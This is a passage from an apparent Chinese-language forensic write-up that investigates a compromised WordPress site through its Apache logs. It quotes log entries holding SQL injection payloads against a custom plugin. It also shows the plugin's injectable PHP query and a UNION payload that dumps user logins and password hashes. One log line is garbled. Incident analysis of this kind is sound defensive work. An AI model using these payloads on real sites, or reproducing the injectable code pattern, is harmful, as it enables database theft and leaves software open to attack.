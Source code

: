     假设管理员密码既没有泄漏也没有被暴力破解，那么我们就得回头看看我们是不是忽略了什么信息。

    当前这份 access.log 中并不包含任何有关管理员凭证得线索，不过我们并不是只有一个 access.log 文件可以调查。Apache HTTP 服务器中还提供了很多其他的日志文件，比如说 / var/log/apache2 / 目录下就有四个可以调查的日志文件。首先，我们可以过滤出包含 IP 地址 84.55.41.57 的日志条目。我们发现，其中有一份日志文件中包含了大量与 SQL 注入攻击（貌似针对的是一个自定义插件）有关的记录信息：

```
84.55.41.57-  -  [14 / Apr / 2016：08：22：13 0100]“GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=1 AND（SELECT 6810 FROM（SELECT COUNT（*） ，CONCAT（0x7171787671，（SELECT（ELT（6810 = 6810,1））），0x71707a7871，FLOOR（RAND（0）* 2））x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x）a）HTTP / 1.1“200 166” “Mozilla / 5.0（Windows; U; Windows NT 6.1; ru; rv：1.9.2.3）Gecko / 20100401 Firefox / 4.0（.NET CLR 3.5.30729）”
84.55.41.57-  -  [14 / Apr / 2016：08：22：13 0100]“GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=(SELECT 7505 FROM（SELECT COUNT（*），CONCAT （0x7171787671，（SELECT（ELT（7505 = 7505,1））），0x71707a7871，FLOOR（RAND（0）* 2））x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x）a）HTTP / 1.1“200 166” - “” Mozilla / 5.0（Windows; U; Windows NT 6.1; ru; rv：1.9.2.3）Gecko / 20100401 Firefox / 4.0（.NET CLR 3.5.30729）“
84.55.41.57-  -  [14 / Apr / 2016：08：22：13 0100]“GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=(SELECT CONCAT（0x7171787671，（SELECT（ELT（1399 = / /（Windows; U; Windows NT 6.1; ru; rv：1.9.2.3）Gecko / 20100401 Firefox / 4.0（.NET） CLR 3.5.30729）“
84.55.41.57-  -  [14 / Apr / 2016：08：22：27 0100]“GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=1 UNION ALL SELECT CONCAT（0x7171787671,0x537653544175467a724f，0x71707a7871） ，NULL，NULL  -  HTTP / 1.1“200 182” - “”Mozilla / 5.0（Windows; U; Windows NT 6.1; ru; rv：1.9.2.3）Gecko / 20100401 Firefox / 4.0（.NET CLR 3.5.30729） “
```

   我们假设这个插件是系统管理员从网上直接下载并拷贝到网站之中的，而这个脚本可以根据给定的 ID 来查询用户的合法性。该插件在网站的主页面中提供了一个表单，该表单会向 / wordpress/wp-content/plugins/custom_plugin/check_user.php 发送一个 AJAX GET 请求。

    通过对 check_user.php 文件进行了分析之后，我们发现这个脚本的代码写得非常烂，而且存在 SQL 注入漏洞：

```
<?php
//Include the WordPress header
include('/wordpress/wp-header.php');
global $wpdb;
// Use the GET parameter ‘userid’ as user input
$id=$_GET['userid'];
// Make a query to the database with the value the user supplied in the SQL statement
$users = $wpdb->get_results( "SELECT * FROM users WHERE user_id=$id");
?>
```

    上述信息表明，攻击者使用了 SQL 注入工具来利用这个插件所带来的 SQL 注入漏洞，而且这款漏洞利用工具尝试了多种 SQL 注入技术来枚举数据库名、表名和列名:  

```
/wordpress/wp-content/plugins/my_custom_plugin/check_user.php?userid=-6859 UNION ALL SELECT (SELECT CONCAT(0x7171787671,IFNULL(CAST(ID AS CHAR),0x20),0x616474686c76,IFNULL(CAST(display_name AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_activation_key AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_email AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_login AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_nicename AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_pass AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_registered AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_status AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_url AS CHAR),0x20),0x71707a7871) FROM wp.wp_users LIMIT 0,1),NULL,NULL--
```

      注：有关 SQL 注入漏洞的解决方案请参考这篇文章。
